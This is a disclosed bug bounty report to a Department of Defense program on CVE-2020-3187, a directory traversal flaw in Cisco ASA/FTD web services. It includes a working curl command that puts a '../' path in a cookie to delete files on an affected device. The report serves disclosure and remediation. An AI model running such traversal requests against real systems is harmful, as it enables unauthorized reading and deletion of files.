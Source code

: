 # CVE-2020-3187 - Unauthenticated Arbitrary File Deletion

## Report Details
- **Report ID**: 960330
- **URL**: https://hackerone.com/reports/960330
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-08-17T11:21:28.436Z
- **Disclosed**: 2020-09-21T14:50:40.173Z

## Reporter
- **Username**: grimnir
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of the HTTP URL. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences.

## Vulnerable Endpoint

https://██████/+CSCOE+/session_password.html

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the targeted system. When the device is reloaded after exploitation of this vulnerability, any files that were deleted are restored. The attacker can only view and delete files within the web services file system. This file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability can not be used to obtain access to ASA or FTD system files or underlying operating system (OS) files. Reloading the affected device will restore all files within the web services file system.

## Step-by-step Reproduction Instructions

1.First I performed a curl request to validate that /session_password.html gave a 200 response. 

     curl -k -s -i https://██████/+CSCOE+/session_password.html

2.Example to delete logo file "/+CSCOU+/csco_logo.gif".

     curl -k -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://█████████/+CSCOE+/session_password.html


*NOTE: No destructive behavior was performed on target, the above command will remove `csco_logo.gif` and can be restored on reboot of the device*

## Suggested Mitigation/Remediation Actions

Upgrade to the latest version of Cisco ASA or Cisco FTD.

## Impact

CVSS Score: Base 9.1
Vector: [CVSS:3.0/CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:X/RL:X/RC:X/CR:X/IR:X/AR:X/MAV:X/MAC:X/MPR:X/MUI:X/MS:X/MC:X/MI:X/MA:X](https://tools.cisco.com/security/center/cvssCalculator.x?version=3.0&vector=CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)

An unauthenticated, remote attacker can delete sensitive files located inside the webroot directory.

## Attachments
No attachments
